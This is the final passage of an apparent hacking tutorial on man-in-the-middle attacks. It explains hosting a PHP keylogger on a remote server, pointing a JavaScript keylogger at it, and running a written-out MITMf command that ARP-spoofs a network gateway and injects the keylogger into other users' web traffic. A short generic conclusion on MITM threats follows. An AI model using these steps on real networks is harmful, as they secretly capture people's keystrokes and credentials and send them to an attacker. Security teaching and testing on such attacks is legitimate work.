 The "keylogger.php" must be hosted to a remote server and the full file URL must be specified in the "keylogger.js" file.

<div id="bookmark-5-3"></div>

### Inject the JS file

Now that we are ready with our file, we must inject the JavaScript to the network. To do it, we will use the below command.

```html
cd /opt/mitmf/
sudo ./mitmf.py --inject --js-file ~/demo/keylogger.js --spoof --arp --gateway 192.168.1.1 -i wlp2s0
```

**Output**

![How to Use DNS Poisoning to Redirect Users to Fake Website](https://neoslab.com/uploads/medias/2021/08/how-to-use-dns-poisoning-to-redirect-users-to-fake-website-4.png "How to Use DNS Poisoning to Redirect Users to Fake Website")

* * *

<div id="bookmark-6"></div>

## Conclusion

In the realm of cybersecurity, the man-in-the-middle (MITM) attack stands as a formidable threat. By clandestinely intercepting and manipulating communication between unsuspecting parties, the attacker undermines trust and confidentiality. Whether achieved through active eavesdropping or Wi-Fi infiltration, the MITM attack exploits vulnerabilities in cryptographic protocols.